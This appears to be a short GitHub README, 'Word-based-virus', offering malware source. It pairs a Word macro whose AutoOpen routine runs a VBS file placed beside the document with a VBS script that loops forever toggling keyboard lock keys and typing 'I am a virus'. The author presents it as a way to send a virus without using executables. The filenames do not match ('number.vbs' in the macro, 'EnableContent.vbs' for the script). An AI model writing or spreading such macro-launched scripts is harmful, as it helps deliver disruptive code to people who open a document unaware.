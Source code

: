 # Word-based-virus

Sending executables usually isn't the best option. 
But we can use VBA script Macro in a Word document in order to send a virus. 

Detailed steps of how I made it and explanation of codes can be seen at:
https://www.youtube.com/watch?v=UCyQlx5fzGI

In word macro:
-------------------------------

Sub AutoOpen()

Dim wb As String
Dim myPath As String
Dim myWb As String

wb = "number.vbs"
myPath = ActiveDocument.path
myWb = """" & myPath & "\" & wb & """"

' MsgBox myWb, 48

CreateObject("Wscript.Shell").Run myWb, 1, True


End Sub

-------------------------------

in EnableContent.vbs:
-------------------------------

set x=wscript.createobject ("wscript.shell") 
do 
wscript.sleep 100 x.sendkeys "{CAPSLOCK}" 
x.sendkeys "{NUMLOCK}" 
x.sendkeys "I am a virus " 
x.sendkeys "{SCROLLLOCK}" 
loop

-------------------------------
